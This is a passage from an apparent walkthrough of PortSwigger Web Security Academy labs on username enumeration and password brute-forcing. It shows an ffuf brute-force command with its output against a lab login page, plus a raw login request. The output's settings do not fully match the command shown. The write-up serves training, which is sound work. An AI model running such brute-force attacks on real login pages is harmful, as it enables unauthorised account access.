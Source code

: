 There we filter results by words `-fw` with `1109`, and `1118` and didn't use the filter by size `-fs` because when I use the filter by size different numbers of request sizes are returned from the server and I cannot able to filter to get one output so when I use the filter by words I only get one entry as you can see above and when I put the name on the login forms they give me an error message but they are not same as previous one they missed the `.` in it.

```
Invalid username or password
```

So that's why they get different numbers of words. Now we know the username we can brute-force this user password using this `ffuf` command.

```
ffuf -w ../password.txt:FUZZ -X POST -d "username=ai&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u https://0a1900870411136ac1e490d30094006d.web-security-academy.net/login -fc 200
________________________________________________

 :: Method           : POST
 :: URL              : https://0a1900870411136ac1e490d30094006d.web-security-academy.net/login
 :: Wordlist         : FUZZ: ../user.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=Anything
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1109,1118
________________________________________________

moscow                      [Status: 320, Size: 2976, Words: 1110, Lines: 63,
```


##### LAB #5: Username enumeration via response timing

LAB URL: https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing

Given Credentials
```
wiener:peter
```

This lab has a login functionality in which we can use a username and password. If any of these would be incorrect an error message is shown.
```
Invalid username or password.
```

The site doesn't respond with other responses if any of these are incorrect. The login POST request looks like this.

```
POST /login HTTP/2
Host: 0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Cookie: session=T2uFGlgC9oNUAQWuXfp9GFgVSg0IPDf2
Content-Length: 796
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
```